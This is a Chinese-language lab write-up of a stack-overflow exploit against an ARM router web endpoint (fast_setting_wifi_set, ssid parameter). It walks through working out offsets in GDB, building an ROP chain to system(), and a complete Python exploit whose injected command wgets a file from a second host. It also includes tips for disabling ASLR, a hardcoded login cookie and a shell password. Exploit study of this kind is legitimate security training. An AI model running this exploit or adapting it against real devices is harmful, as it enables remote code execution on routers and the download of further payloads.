










# GDB动态调试:
先cyclic生成了300个数据，在溢出点下个断点，直接c会在发生错误的地方停下来，我们发现会一直卡在ldrb r2 r1 #1 这里，是要r1 指定的地址加载一个字节到 r2，然后将 r1 的值加 1，指向下一个字节，但是我们这里的r1所指向的地址已经被我们写的垃圾数据给填充了，所以会找不到这个地址发生段错误，于是我们也可以知道，到这里的时候前面要先填充多少个垃圾数据，然后再让其通过去找到一个可以读到的地址，才能往后走。故我们cyclic -l *0x61616179* (r1寄存器) 得到96





本来是想着在哪发生了段错误，就直接在哪覆盖就可以了，但经过实际调试发现偏差少了四位，故又单步去调试了一下



因为要确保 fp 指向有效的内存地址是程序正常运行的关键，指向无效地址会导致段错误，所以pop到fp的时候就已经发生段错误了，故我们计算偏移的时候是要其覆盖到pc，故应该到gaab来结束计算
所计算得到的偏移量为96 + 4 + 24，故要绕过第二次段错误我们应该再构造24个脏数据



去验证让它跳转到我们想让它跳转的位置，POP {R3,PC}，发现成功跳转，说明我们偏移已经算对了




我们构造的ROP链是:pop {r3,pc}->system->mov r0,sp;blx r3->cmd
pop{r3,pc}指令通常用于函数返回或跳转到某个地址，同时保存返回地址到寄存器 r3。
也就是说
r3->system   r3 将被设置为 0x76e05270（即 system 的地址）
pc->mov r0,sp      pc 将指向 0x76debcb8（即 authnone_create + 192 的地址）
跳转到 0x76debcb8 执行，从栈中弹出地址并跳转



mov r0,sp
准备了 system 函数的参数，执行后会调用 system，并使用当前栈指针sp的值r0作为参数。
blx r3 又跳转到刚刚赋给r3的system的地址



命令执行成功了




# exp:
```
#!/usr/bin/python3

import requests
from pwn import *


target_ip = "10.10.10.3"
target_port = 80  

cmd = b'wget http://10.10.10.2:8000/exp.py'
libc_base = 0x76DAB000
readable_addr = 0x641E8
system_addr = 0x5A270
pop_r3_addr = 0x18298
mov_ro_ret_r3_addr = 0x40CB8

#96 4 24
payload = b'a'*96+p32(readable_addr+libc_base)+b'a'*24+p32(pop_r3_addr+libc_base)+p32(system_addr+libc_base)+p32(mov_ro_ret_r3_addr+libc_base)+cmd

url = f"http://{target_ip}/goform/fast_setting_wifi_set" 
cookie = {"cookie": "password=zjarmx"}

data = {"ssid": payload}
response = requests.post(url, cookies=cookie, data=data)
```
# tip:
## 关闭地址随机化:
这两条命令与 Linux 系统中的地址空间布局随机化（ASLR）设置有关。



```sh
cat /proc/sys/kernel/randomize_va_space
作用：查看当前的 ASLR 配置。
返回值：
0：关闭 ASLR。
1：启用 ASLR（默认设置）。
2：启用堆和栈的随机化，但共享库和映射的文件保持固定。
 sudo sysctl kernel.randomize_va_space=0
作用：将 ASLR 设置为关闭（0）。
效果：程序在运行时的内存地址将不再随机化，有助于调试或逆向工程，但会降低安全性。
```
## canda python环境
```sh
#开启canda
conda activate pwntools
#关闭canda
conda deactivate
```

## 基地址:
对于动态链接库（如 libc.so.0），加载的可执行部分通常以 r-xp 权限标识。




## shell passwd:
Fireitup